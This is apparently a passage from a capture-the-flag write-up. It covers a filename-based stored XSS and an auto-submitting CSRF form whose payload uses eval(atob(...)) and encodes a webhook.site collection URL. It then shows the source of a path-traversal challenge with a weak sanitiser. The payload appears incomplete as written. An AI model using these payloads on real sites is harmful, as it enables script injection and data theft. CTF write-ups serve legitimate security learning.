 If the filename is `'><script>alert(1)</script>x.png` the output should be

```html
<a href=""
  ><script>
    alert(1)
  </script>
  .png>uploaded images!</a
>
```

Then the alert will be trigerred since there was no csrf protection and we can tell the bot to visit any url, we can tell the bot to visit our malicious site with the exploit

```html
<form action="http://shop/contest.php" method="POST" enctype="multipart/form-data">
  <input type="file" name="fileToUpload" id="fileToUpload" />
</form>
<script>
  const file = new File(
    ['foo'],
    "foo'><svg onload=eval(atob('aHR0cHM6Ly93ZWJob29rLnNpdGUvZGE0NWViMTctYzIzZC00NmViLWE2N2ItZGE3MTY4ZWE1MDhi=='))>.jpg",
    {
      type: 'images/jpeg',
    }
  )

  const dataTransfer = new DataTransfer()
  dataTransfer.items.add(file)

  const form = document.forms[0]
  form.children[0].files = dataTransfer.files

  form.submit()
</script>
```

## traversaller

> Do you have fun travelling through different filesystems? \
> **Author:** @gehaxelt \
> **Conn:** 52.59.124.14:5017

```php
<?php
ini_set("error_reporting", 0);

if(isset($_GET['source'])) {
    highlight_file(__FILE__);
}

include "/var/www/html/flag.php";

function sanitize_path($p) {
        return str_replace(array("\0","\r","\n","\t","\x0B",'..','./','.\\','//','\\\\',),'',trim($p, "\x00..\x1F"));
}
$path = $_GET['path'];
if(isset($path) && str_contains($path, "/var/www/html/static/")) {
    die(file_get_contents(sanitize_path($path)));
}

?>

<html>
```